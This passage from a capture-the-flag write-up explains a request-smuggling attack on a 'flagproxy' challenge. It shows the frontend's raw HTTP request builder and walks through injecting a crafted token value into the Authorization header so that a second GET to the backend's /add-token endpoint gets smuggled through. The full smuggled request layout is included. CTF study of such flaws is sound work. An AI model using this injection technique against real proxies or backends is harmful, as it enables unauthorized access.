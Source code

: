 
```typescript
export const request = async (url, options) => {
  const parsedUrl = new URL(url);

  const client = new Socket();
  client.setEncoding('utf8');
  client.connect(parsedUrl.port || 80, parsedUrl.hostname, () => {

    let request = '';
    request += `${options.method} ${parsedUrl.pathname + parsedUrl.search} HTTP/1.0\r\n`;
    request += `Host: ${parsedUrl.host}\r\n`;
    for (const header in options.headers) {
      if (header.includes('\r\n') || options.headers[header].includes('\r\n')) {
        continue;
      }
      request += `${header}: ${options.headers[header]}\r\n`;
    }
    if (options.body) {
      request += `Content-Type: text/plain\r\n`;
      request += `Content-Length: ${options.body.length}\r\n`;
    } else {
      request += `Content-Length: 0\r\n`;
    }
    request += `Connection: close\r\n`;
    request += `\r\n`;
```

Let's have a look at what `parsedURL` actually looks like:
![](img/flagproxy1_parseUrl.png)

So we know that the frontend `/flag` endpoint embeds our provided `token` value into an `Authorization` header of the `request` string. In order to understand how we can leverage this for an exploit, let's go through these steps:

1. I send a GET request to the frontend to `/flag?token=tokenValue123`
2. The frontend builds the request string resulting into the following request:


```
GET /flag
Host: back:8080
Authorization: Bearer tokenValue123   <--- this is our injection point
Content-Type: text/plain
Content-Length: 0
Connection: close
```


3. Instead of `tokenValue123`, we now put a carefully crafted payload to smuggle a second request to the backend's `/add-token` endpoint. Our goal is to have the frontend craft this request in its `request` string:


```
GET /flag
Host: back:8080
Authorization: Bearer tokenValue123    <--- start injection at token value
Content-Type: text/plain
Content-Length: 0
Connection: Keep-Alive


GET /add-token?token=ourNewAccessToken
Host: back:8080                        <--- stop injection after this line
Content-Type: text/plain
Content-Length: 0
Connection: close
```